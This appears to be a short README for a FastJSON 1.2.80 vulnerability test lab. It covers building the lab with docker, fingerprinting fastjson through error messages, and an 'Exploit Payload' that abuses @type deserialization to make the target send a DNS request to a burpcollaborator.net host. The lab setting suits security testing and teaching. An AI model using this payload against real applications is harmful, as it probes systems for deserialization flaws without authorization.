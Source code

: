 ##  FastJSON-1.2.80-test-lab
 
* Run application using docker

```
docker build --network=host --no-cache .
```

## How to know if the targert application is using **fastjson**?

- Send Invalid JSON data and application will return 400 response exposing fastjson use in error message.

```json
{"test":"nonexistent"
```
<img src="/screenshot/invalid-json-400-response.png">

Credits:
https://github.com/vulhub/vulhub/tree/master/fastjson

## Exploit Payload

Use Following payload to receive DNS request from the vulnerable application.

```
{"test": {
"@type":"java.net.Inet4Address",
"val": "asdfasdfasdf.burpcollaborator.net"
}
```
